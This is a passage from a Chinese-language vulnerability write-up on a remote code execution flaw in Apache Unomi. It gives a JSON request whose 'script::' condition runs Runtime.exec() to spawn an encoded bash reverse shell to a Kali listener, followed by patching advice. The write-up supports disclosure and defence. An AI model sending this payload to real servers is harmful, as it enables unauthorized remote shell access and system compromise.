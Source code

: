 4、利用此漏洞反弹 shell，将 bash 反弹 shell 的命令进行编码，编码网址为：http://www.jackson-t.ca/runtime-exec-payloads.html

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqxOBMl9SyQPzAo3aUCp8B4RsFdJ8fKcJ9JgCzqib6wmK7aibDRhu4k7WKQ/640?wx_fmt=png) 

5、将编码后的 shell 添加到以下代码中的 shell 编码处，kali 设置监听，然后发送。

| 

{

    "filters": [

        {

            "id": "boom",

            "filters": [

                {

                    "condition": {

                         "parameterValues": {

                            "":"script::Runtime r = Runtime.getRuntime(); r.exec(\"shell 编码 \");"

                        },

                        "type": "profilePropertyCondition"

                    }

                }

            ]

        }

    ],

    "sessionId": "boom"

}

 |

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqx2M8AReBRAKdpCkHH271b5ZzZSpPUjUaS7B7easpwV5dUCtznO7y4Bw/640?wx_fmt=png)   

6、在 kali 上查看 shell 成功返回。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqFWohrfh5uqMVraCACVyqxkdgndCgDJdqlvTRcWfLHhpKQTg6jQM6QnqzVJ7QSvgEaiblHHrYpibicQ/640?wx_fmt=png)

****0x05 修复建议**** 

1、尽可能避免将用户数据放入表达式解释器中。

2、目前厂商已发布最新版本，请受影响用户及时下载并更新至最新版本。

官方链接如下：

https://unomi.apache.org/download.html
